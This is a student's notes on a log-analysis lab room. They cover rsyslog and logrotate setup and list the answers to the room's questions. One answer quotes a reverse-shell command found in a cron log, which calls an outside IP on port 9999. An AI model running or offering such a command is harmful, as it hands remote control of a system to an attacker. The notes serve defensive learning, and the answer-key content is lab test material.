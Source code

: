 ## Room goals:
- Understand the importance of logs as a historical activity record for identifying and mitigating potential threats
- Explore various types of logs, logging mechanisms and collection methods across multiple platforms
- Gain hands-on experience detecting and defeating adversaries through log analysis

## Scenario 
- web server being constantly hit with scans
- configure logging and analyze the logs to see what adversary is doing

user `damianhall` limited sudo priveledges
- `sudo -l` --> check what commands user has access to

```
User damianhall may run the following commands on WEBSRV-02:
    (ALL) NOPASSWD: /bin/systemctl status rsyslog
    (ALL) NOPASSWD: /bin/systemctl start rsyslog
    (ALL) NOPASSWD: /bin/systemctl stop rsyslog
    (ALL) NOPASSWD: /bin/systemctl restart rsyslog
    (ALL) NOPASSWD: /bin/systemctl status logrotate
    (ALL) NOPASSWD: /bin/systemctl start logrotate
    (ALL) NOPASSWD: /bin/systemctl stop logrotate
    (ALL) NOPASSWD: /bin/systemctl restart logrotate
    (ALL) NOPASSWD: /usr/sbin/logrotate -d /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/sbin/logrotate -f /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/gedit /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/nano /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/vim /etc/logrotate.d/98-websrv-02_sshd.conf
    (ALL) NOPASSWD: /usr/bin/vi /etc/logrotate.d/98-websrv-02_sshd.conf
```

- looks like can edit some config files and also access to start / stop rsyslog and logrotate

## Notes
useful locations (from `Note.txt` on machine desktop)

`/var/log/gitlab/`
`/var/log/gitlab/nginx/access.log` suspicious web browser activity 

logrotate configuration
`/etc/logrotate.d/`

components of gitlab instance 
`/var/opt/gitlab/logrotate/logrotate.d/`

### Questions
What is the name of your colleague who left a note on your Desktop?
- `Perry` (Desktop `note.txt`)

What is the full path to the suggested log file for initial investigation?
- `/var/log/gitlab/nginx/access.log` (Desktop `note.txt`)

Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2?
- `web server log`
    - nginx logs (a webserver)

Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2?
- `combined`
    - NCSA Combined Log Format (Combined): An extension of CLF, adding fields like referrer and user agent. It is typically used by **Nginx** HTTP Server by default.

After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?
- `stansimon`

![alt text](.\images\image-2.png)

What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?
- `10.10.10.101`

![alt text](.\images\image-3.png)

Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?
- `/bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"`

![alt text](.\images\image-4.png)
- a reverse shell command...

Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?
- 24

![alt text](.\images\image-6.png)

Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency?
- hourly

Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?
- `no date field`

![alt text](.\images\image-7.png)

What is the process of standardising parsed data into a more easily readable and query-able format?
- `normalisation`
    - with an "s"

What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address?
- `Enrichment`

### Practical Examples
#### Log Collection with Rsyslog
first ssh'd into the machine from my kali attackbox

check if rsyslog is installed / running:

![alt text](.\images\image.png)

create config file:

`vim /etc/rsyslog.d/98-websrv-02-sshd.conf`
```
$FileCreateMode 0644
:programname, isequal, "sshd" /var/log/websrv-02/rsyslog_sshd.log
```

restart rsyslog: `sudo systemctl restart rsyslog`

check its all working:

![alt text](.\images\image-1.png)

#### Practical Activity: Log Management with logrotate
- automates log file rotation, compression, and management
- setup for `/var/log/websrv-02/rsyslog_sshd.log`

1. create config file: `sudo vim /etc/logrotate.d/98-websrv-02_sshd.conf`
```
/var/log/websrv-02/rsyslog_sshd.log {
    daily
    rotate 30
    compress
    lastaction
        DATE=$(date +"%Y-%m-%d")
        echo "$(date)" >> "/var/log/websrv-02/hashes_"$DATE"_rsyslog_sshd.txt"
        for i in $(seq 1 30); do
            FILE="/var/log/websrv-02/rsyslog_sshd.log.$i.gz"
            if [ -f "$FILE" ]; then
                HASH=$(/usr/bin/sha256sum "$FILE" | awk '{ print $1 }')
                echo "rsyslog_sshd.log.$i.gz "$HASH"" >> "/var/log/websrv-02/hashes_"$DATE"_rsyslog_sshd.txt"
            fi
        done
        systemctl restart rsyslog
    endscript
}
```
2. execute `sudo logrotate -f /etc/logrotate.d/98-websrv-02_sshd.conf`
